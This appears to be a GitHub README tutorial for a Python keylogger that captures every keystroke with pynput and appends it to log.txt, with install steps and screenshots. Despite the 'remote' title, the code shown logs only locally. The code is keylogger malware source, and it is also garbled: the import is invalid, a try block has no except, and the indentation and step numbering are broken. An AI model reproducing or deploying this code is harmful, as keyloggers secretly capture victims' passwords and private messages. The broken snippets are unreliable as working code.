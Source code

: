 # Python-Remote-Keylogger-
Creating a python keylogger to record keystrokes remotely. 

# Objective:

Build a Python-based keylogger to:
	
 1.	Record keystrokes locally.
	
 2.	Save them to a log file.
	

# Prerequisites:
	
 1.	Programming Knowledge: Basic understanding of Python.
	
 2.	Environment: Python installed on your system.
	
 3.	Libraries: Install the necessary Python libraries:
	
 	pynput (to capture keystrokes).
	
 

Install dependencies:

pip install pynput

![Screenshot 2025-01-06 232309](https://github.com/user-attachments/assets/8e696666-3e46-4c1d-a94a-1a1cdbef4d26)



# Step 1: Capture Keystrokes
	
 
 1.	Import the pynput library:

		from pynput.keyboard import pynput


2.    Define a function for file handling:

  			with open("log.txt", "w") as log:
    			log.write("")
  

	
  4.	Define a function to log keystrokes:


			def on_press(key):

 try:
 
 		with open("log.txt", "a") as log:
          	log.write(f"{key}\n")


	
 4.	Set up the key listener:


		with 
 		pynput.keyboard.Listener(on_press=on_press) as listener:
    		listener.join()


![Screenshot 2025-01-08 230006](https://github.com/user-attachments/assets/eb3f5535-5c59-45b4-b06c-47830bb21aea)



# Step 2: Test in a Virtual Environment
	
 Run the keylogger in a controlled environment (e.g., a virtual machine) to observe its functionality. I'm running it on the terminal in visual code.

 ![Screenshot 2025-01-08 230235](https://github.com/user-attachments/assets/29b800d0-6277-4c8f-87d2-7b98488e86e6)



# Step 3: Save Logs to a File


The captured keystrokes will be saved to a file named log.txt in the same directory as the script.

![Screenshot 2025-01-08 000119](https://github.com/user-attachments/assets/77cee983-9701-499f-82e3-82d7dd409981)



